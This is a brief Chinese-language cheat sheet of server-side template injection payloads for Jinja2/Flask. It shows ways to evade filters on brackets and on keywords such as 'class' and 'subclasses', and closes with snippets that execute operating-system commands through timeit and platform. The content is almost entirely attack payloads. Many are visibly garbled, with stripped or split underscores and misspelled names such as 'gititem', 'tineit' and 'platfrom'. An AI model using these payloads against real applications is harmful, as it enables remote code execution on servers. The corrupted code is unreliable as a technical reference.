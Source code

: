 ```yaml
---
title:一些绕过技巧
data:2020-12-08
---
```


#过滤[]等括号
使用gititem绕过
```
1. 原poc{{".class.bases[0]}}
2. 绕过后{{"".class.bases.gititem(0)}}
```

#过滤了subclasses
用拼凑法
```
1. 原poc{{"".class.bases[0].subclasses()}}
2. 绕过{{"".class.bases[0]'subcla'+'sses'}}
```

#过滤了class
使用session绕过
```
{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclaasses()[118]}}
```
多个bases[0]是因为一直向上找object类。用mro代替更方便

```
{{session['_ _'cla'+'ss__'] . _ _mro_ _[12]}}
或
{{request{'_ _cl'+'ass_ _'] . _ _mro_ _[12]}}
```

#timeit姿态
```
import timeit
tineit . timeit( " _ _import_ _( ' os ' ) . system( ' dir ' )" , number=1)

import platfrom
print platfrom . popen( ' dir ' ) . read()
```

[参考](https://blog.csdn.net/qq_40800734/article/details/107011517)